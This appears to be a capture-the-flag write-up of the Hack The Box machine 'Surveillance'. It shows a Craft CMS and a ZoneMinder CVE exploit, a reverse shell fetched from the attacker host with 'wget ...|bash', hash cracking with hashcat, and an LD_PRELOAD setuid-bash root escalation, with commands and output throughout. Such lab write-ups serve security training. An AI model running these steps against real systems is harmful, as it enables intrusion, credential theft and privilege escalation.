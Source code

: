 ```yaml
---
title: "surveillance from HTB"
categories: [Hack The Box]
tags: [Hack The Box]
---
```

# surveillance from HTB
`nmap`showed nothing unusual.
add this to `/etc/hosts`
```
10.10.11.245 surveillance.htb
```
Then access the site. At the end of the site there is a version which is site running on.
There is an exploit on that which i found in
```
https://github.com/0xfalafel/CraftCMS_CVE-2023-41892
```
I executed it and got `cmd`
```python
python3 craftCms_4.4.14.py http://surveillance.htb/
```
Then i created `reverse.sh`for `reverse shell`and uploaded it, then executed
```bash
wget http://10.10.16.6:8000/reverse.sh|bash
bash reverse.sh
```
I got connection on `netcat`
```bash
rlwrap nc -nvlp 1234
listening on [any] 1234 ...
connect to [10.10.16.6] from (UNKNOWN) [10.10.11.245] 52290
www-data@surveillance:/$ script /dev/null -c bash
www-data@surveillance:/$ cd /var/www/html/craft/storage/backups/
```
`unzip`the `sql`file
Then read it and `with word search find user`
```bash
www-data@surveillance:~/html/craft/storage/backups$ cat surveillance--2023-10-17-202801--v4.4.14.sql
---------------
---------
----
----------
---------------
INSERT INTO `users` VALUES (1,NULL,1,0,0,0,1,'admin','Matthew B','Matthew','B','admin@surveillance.htb','39ed84b22ddc63ab3725a1820aaa7f73a8f3f10d0848123562c9f35c675770ec','2023-10-17 20:22:34',NULL,NULL,NULL,'2023-10-11 18:58:57',NULL,1,NULL,NULL,NULL,0,'2023-10-17 20:27:46','2023-10-11 17:57:16','2023-10-17 20:27:46');
/*!40000 ALTER TABLE `users` ENABLE KEYS */;
```
There is the password for `matthew`---- `39ed84b22ddc63ab3725a1820aaa7f73a8f3f10d0848123562c9f35c675770ec`
With `hashid`i found out that it's `sha512`and i cracked it with `hashcat`
```bash
hashcat -m 1400 hash /usr/share/wordlists/rockyou.txt
-----
------------
39ed84b22ddc63ab3725a1820aaa7f73a8f3f10d0848123562c9f35c675770ec:starcraft122490
```
Then went and connected to `ssh matthew@10.10.11.245` With password
***
User Flag is: 9acc62906a3ec24021f196fcf1abc4be
***
`sudo -l`showed nothing, we have to become other user.
with `ss -tlnp`i got that there is an `8080`port running internally
```
ss -tlnp
LISTEN              0                   511                                   127.0.0.1:8080                                  0.0.0.0:*
```
Then i did port forwarding
```
 ssh matthew@surveillance.htb -L 8082:127.0.0.1:8080
```
Accessed it with `127.0.0.1:8082`
Logged as `admin -- starcraft122490`
Then found that `zoneminder v1.36.32`There is an exploit on that.
```
https://github.com/rvizx/CVE-2023-26035/blob/main/exploit.py
```
I ran that exploit with this:
```
python3 exploit.py -t <target_url> -ip <attacker-ip> -p <port>
```
And i got connection on `netcat`
i became `zoneminder` but i didn't know password so i couldn't find out what i can do `with root permission`
So generate `ssh`keys and connect to `ssh`
```bash
zoneminder@surveillance:~$ ssh-keygen
--------
------------
--------------
Your identification has been saved in ./ssh-key
Your public key has been saved in ./ssh-key.pub
```
Save `ssh-key`to your machine and `chmod 600 ssh-key`
move `ssh-key.pub`to `~/.ssh/authorized_keys`
```bash
 echo 'ssh-rsa AAAAB3NzaC1yc..............' > ~/.ssh/authorized_keys
```
I found out what i can do
```bash
zoneminder@surveillance:~$ sudo -l
User zoneminder may run the following commands on surveillance:
    (ALL : ALL) NOPASSWD: /usr/bin/zm[a-zA-Z]*.pl *
```
On the site i forwarded in `options > config`i found `LD_PRELOAD`which uses  `zmdc.pl` file.
We can create an file which is preloaded as server starts. `THERE add the file directory which should be preloaded` for me it is `/tmp/help`and click `save`
create an `.c`file
```C
#include <stdio.h>
#include <stdlib.h>
void _init() {
        unsetenv("LD_PRELOAD");
	system("chmod u+s /bin/bash");
}
```
then
```
gcc -shared  main.c -o help -nostartfiles
```
Then
```bash
sudo zmdc.pl startup zmdc
```
And if you did everything correct you can become root with
```bash
bash -p
```
***
Root Flag is: 7699ad0bd39de4f6886b2f3c46092ad9
***
![](/assets/images/Screenshot from 2024-08-18 15-27-35.png)
